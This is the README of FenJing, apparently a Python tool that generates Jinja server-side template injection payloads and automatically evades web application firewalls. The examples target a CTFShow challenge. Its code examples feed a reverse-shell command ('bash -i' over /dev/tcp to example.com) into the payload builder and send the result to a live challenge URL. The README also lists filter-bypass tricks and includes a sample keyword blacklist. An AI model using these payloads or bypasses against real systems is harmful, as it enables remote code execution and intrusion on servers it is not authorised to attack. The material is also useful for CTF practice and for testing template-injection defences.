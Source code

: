 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

![中文](./README_zh.md)

## Introduction

FenJing is a payload generator targeting on Jinja SSTI. It focuses on automatically detecting and bypassing WAF.


## Usage

Example：[CTFShow]web372

First, you should write a function that receive a string. If the string contains characters that would be WAF, return False, otherwise return True.

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

Then pass this function and the shell command you need to this module. The module would generate payload for you.

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

Full example

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## Feature

It supports bypassing:

- `'` and `"`
- Most of the keywords
- any number
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### Bypassing for natural numbers:

It supports bypassing `+` or `-` when bypassing 0-9 at the same time.

It supports two ways for bypassing number detection:

- Full-width numerals
- Calculate any natural number with `+`, `-` and some special variables.  

### Bypassing for `'%c'`:

Support bypassing `'`, `"`, `g` and `lipsum`.

### Bypassing for `_`：

Support `(lipsum|escape|batch(22)|list|first|last)`
- number 22 support the bypassing mentioned above.

### Bypassing for any string:

Supprot bypassing `'`, `"`, `+`, `_`, `~` and any keyword.

It supports these forms:

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
- `'%c'*3%(97,97,97)`

### Bypassing for any attributes:

- `['aaa']`
- `.aaa`
- `|attr('aaa')`

### Bypassing for any item:

- `['aaa']`
- `.aaa`
- `.__getitem__('aaa')`


### Example for testing:

```python
from ssti import shell_cmd
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```
